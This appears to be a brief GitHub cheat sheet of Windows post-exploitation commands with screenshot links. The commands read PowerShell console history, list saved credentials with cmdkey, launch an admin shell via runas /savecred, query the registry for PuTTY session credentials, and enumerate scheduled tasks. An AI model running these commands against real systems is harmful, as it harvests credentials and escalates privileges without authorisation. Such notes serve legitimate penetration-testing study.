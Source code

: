 #Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

#Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list

![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

#Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe

![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)

![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)

#Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)

![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)


#Scheduled Tasks
Tool: cmd ( admin )
> schtasks
